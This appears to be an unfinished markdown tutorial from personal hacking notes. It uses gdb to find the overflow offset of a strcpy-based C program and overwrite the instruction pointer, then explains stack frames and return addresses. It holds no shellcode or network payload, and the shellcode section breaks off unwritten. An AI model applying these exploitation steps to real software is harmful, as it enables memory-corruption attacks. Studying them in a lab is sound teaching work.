


          we # Exploit examples and tutorials

Okay, so in the other chapters we have learned a bit about gdb and a bit about assembly. And some other stuff. But the best way is to practice and practice and practice. So that is what we are going to do now.


### Buffer overflow

So this is the program that we are going to exploit.
```
# include <stdio.h>
# include <string.h>


int main(int argc, char const *argv[]) {
  char buff[256];
  strcpy(buff, argv[1]);
  printf("%s\n", buff);
  return 0;
}
```

1. Find the buff in memory.
2. Find the size of buff in memory
3. Create shellcode-exploit.
4. ???
5. Profit!

Let's open up the program with gdb.
`gdb -q buffOverflow` - `-q` for quiet.

```
(gdb) disassemble main
Dump of assembler code for function main:
   0x0000000000400536 <+0>:	push   rbp
   0x0000000000400537 <+1>:	mov    rbp,rsp
   0x000000000040053a <+4>:	sub    rsp,0x110
   0x0000000000400541 <+11>:	mov    DWORD PTR [rbp-0x104],edi
   0x0000000000400547 <+17>:	mov    QWORD PTR [rbp-0x110],rsi
   0x000000000040054e <+24>:	mov    rax,QWORD PTR [rbp-0x110]
   0x0000000000400555 <+31>:	add    rax,0x8
   0x0000000000400559 <+35>:	mov    rdx,QWORD PTR [rax]
   0x000000000040055c <+38>:	lea    rax,[rbp-0x100]
   0x0000000000400563 <+45>:	mov    rsi,rdx
   0x0000000000400566 <+48>:	mov    rdi,rax
   0x0000000000400569 <+51>:	call   0x400400 <strcpy@plt>
   0x000000000040056e <+56>:	lea    rax,[rbp-0x100]
   0x0000000000400575 <+63>:	mov    rdi,rax
   0x0000000000400578 <+66>:	call   0x400410 <puts@plt>
   0x000000000040057d <+71>:	mov    eax,0x0
   0x0000000000400582 <+76>:	leave  
   0x0000000000400583 <+77>:	ret    
End of assembler dump.
```

This is not too intimidating. We understand the basics of what's going on here. What we are interested in in this case is the vulnerable function strcpy. And we can see that it can be found at this address: `   0x0000000000400569 <+51>:	call   0x400400 <strcpy@plt>`. That's good. Now let's add a breakpoint right below. `break *0x000000000040056e`
Now let's run the program.
```
run hello
```
The program then stops at our breakpoint. And we are now able to look at the stack and see what it going on so far.
`x/200xb $rsp` - x stands for examine. 200 are how many frames we want to see. x stand or hexadecimal. And b for byte.This way we can see each byte. 

```
(gdb) x/200xb $rsp
0x7fffffffe560:	0x58	0xe7	0xff	0xff	0xff	0x7f	0x00	0x00
0x7fffffffe568:	0x88	0xe1	0xff	0xf7	0x02	0x00	0x00	0x00
0x7fffffffe570:	0x68	0x65	0x6c	0x6c	0x6f	0x00	0x00	0x00
0x7fffffffe578:	0x90	0xe5	0xff	0xff	0xff	0x7f	0x00	0x00
0x7fffffffe580:	0x26	0xb0	0x62	0x65	0x00	0x00	0x00	0x00
0x7fffffffe588:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x7fffffffe590:	0xe0	0xe4	0xff	0xf7	0xff	0x7f	0x00	0x00
0x7fffffffe598:	0xd0	0xe5	0xff	0xff	0xff	0x7f	0x00	0x00
0x7fffffffe5a0:	0x80	0xa2	0xff	0xf7	0x01	0x00	0x00	0x00
0x7fffffffe5a8:	0xc0	0xe5	0xff	0xff	0xff	0x7f	0x00	0x00
0x7fffffffe5b0:	0x2e	0x4e	0x3d	0xf6	0x00	0x00	0x00	0x00
0x7fffffffe5b8:	0x0f	0x03	0x40	0x00	0x00	0x00	0x00	0x00
0x7fffffffe5c0:	0xff	0xff	0xff	0xff	0x00	0x00	0x00	0x00
0x7fffffffe5c8:	0x0b	0xb4	0x01	0x36	0x63	0x2a	0x00	0x00
0x7fffffffe5d0:	0x30	0x73	0xa4	0xf7	0xff	0x7f	0x00	0x00
0x7fffffffe5d8:	0xc0	0x74	0xff	0xf7	0xff	0x7f	0x00	0x00
0x7fffffffe5e0:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x7fffffffe5e8:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x7fffffffe5f0:	0x70	0xe7	0xff	0xff	0xff	0x7f	0x00	0x00
0x7fffffffe5f8:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x7fffffffe600:	0x01	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x7fffffffe608:	0x70	0xe7	0xff	0xff	0xff	0x7f	0x00	0x00
0x7fffffffe610:	0x02	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x7fffffffe618:	0x90	0xe6	0xff	0xff	0xff	0x7f	0x00	0x00
0x7fffffffe620:	0x88	0xe1	0xff	0xf7	0xff	0x7f	0x00	0x00
```

Okay, I am not sure where anything here is. So it is better to enter something that we can easily recognize. So let's run the program again but this time our input will be lots of A's.

```
run $(python -c 'print "A"*100')
```
So here we are opening up a shell when we are running the command, and within that shell we launch python and asks it to run without the interactive shell. So we print out 100 A's.

The breakpoint we set up is till active, so the program stops just after the command-line argument has been copied into the buff-array-variable. Now let's see what we have in the stack register.

```
(gdb) x/200xb $rsp
0x7fffffffe500:	0xf8	0xe6	0xff	0xff	0xff	0x7f	0x00	0x00
0x7fffffffe508:	0x88	0xe1	0xff	0xf7	0x02	0x00	0x00	0x00
0x7fffffffe510:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe518:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe520:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe528:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe530:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe538:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe540:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe548:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe550:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe558:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe560:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe568:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe570:	0x41	0x41	0x41	0x41	0x00	0x7f	0x00	0x00
0x7fffffffe578:	0xc0	0x74	0xff	0xf7	0xff	0x7f	0x00	0x00
0x7fffffffe580:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x7fffffffe588:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x7fffffffe590:	0x10	0xe7	0xff	0xff	0xff	0x7f	0x00	0x00
0x7fffffffe598:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x7fffffffe5a0:	0x01	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x7fffffffe5a8:	0x10	0xe7	0xff	0xff	0xff	0x7f	0x00	0x00
0x7fffffffe5b0:	0x02	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x7fffffffe5b8:	0x30	0xe6	0xff	0xff	0xff	0x7f	0x00	0x00
0x7fffffffe5c0:	0x88	0xe1	0xff	0xf7	0xff	0x7f	0x00	0x00
```

Okay so we know that 0x41 is the hexadecimal representation of A. So we can see that the buffer seems to start at `0x7fffffffe510`. That's good to know. Let's remember that. Now we need to find the size of it (this is of course pretending that we don't know the source-code where we can just look at how many bytes we gave the buffer). We can find the size of the buffer by some trial and error. Because when we input too much we will cause a buffer overflow which will lead to a segmentation error. That means that it is too big.
So first let's remove the breakpoint.

```
info b
1       breakpoint     keep y   0x000000000040056e in main at buffOverflow.c:8
```
So now let's clear it.
```
clear 8
```

Now we are ready to cause some errors.

```
(gdb) run $(python -c 'print "A"*200')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
$(python -c 'print "A"*200')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[Inferior 1 (process 21898) exited normally]
```

Okay, so the program exited normally. No error. So we know that the buffer is bigger than 200 bytes then. Let's increase it.

```
(gdb) run $(python -c 'print "A"*300')
 $(python -c 'print "A"*300')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400583 in main (argc=2, argv=0x7fffffffe638) at buffOverflow.c:10
10	}
```

That's it. Now we got a Segmentation fault. So we know that it is less than 300 bytes. 

```
(gdb) run $(python -c 'print "A"*266')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
 $(python -c 'print "A"*266')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x00007ffff7004141 in ?? ()
(gdb) 

```
This is interesting. Here we see our A's starting to pop up. We can verify that we have found it by doing:

```
(gdb) run $(python -c 'print "A"*266 + "BBB"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/books/Hacking The Art Of Exploitation 2nd Edition V413HAV/buffOverflow $(python -c 'print "A"*266 + "BBB"')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBB

Program received signal SIGSEGV, Segmentation fault.
0x0000004242424141 in ?? ()```
So we can clearly see that we have managed to insert the three B's. The address that pops up last with out B's and A's is the address to the rip - instruction pointer. So that is what is going to be run next. We can verify that this is the instruction pointer by running

```

```
(gdb) x $rip
0x7ffff7004141:	Cannot access memory at address 0x7ffff7004141
```

263 - 23 = 240


## Craftig the shellcode
So now that we have found the size of the buffer 266 bytes. We want to inject shellcode after that. 


# Try two

General-purpose registers

These are the most interesting pointers to us.
ESP - Stack pointer
EBP - Base pointer
EIP - Instruction pointer


So a stack-frame is like the stack of a specific function.
The **Stack pointer** points to the last item that is added to the stack.
The **Base pointer** points to the first item that was added to the stack.

Before the base pointer we actually have one more item, and that is the return-address. The return-address tells the main function where to continue after the function is run. So image that the function is run, and all its operations are added to the stack. Then each operation finished and is thereby poped from the stack. Once it gets down to the last item the program need to know what to do next. That's why you have a return address there. Telling it where to continue. This is most often the operation of function that comes right after the first function.

Memory is always counted downwards. So You start with a high memory, and for each item (or operation) that is added to the stack the lower memory address the item is assigned.



If we run a function from the main-function it will create a new stack-frame. And the ESP and EBP will point to the memory addresses in that stack-frame.


So when the function1 stack is finished. All the items in it have been executed the return address helps the CPU locate the next instruction. So what we would like to do is control the return address. If we can control the return address we can point the CPU to go to whatever memory address we want.


The four bytes after the EBP is the return address.
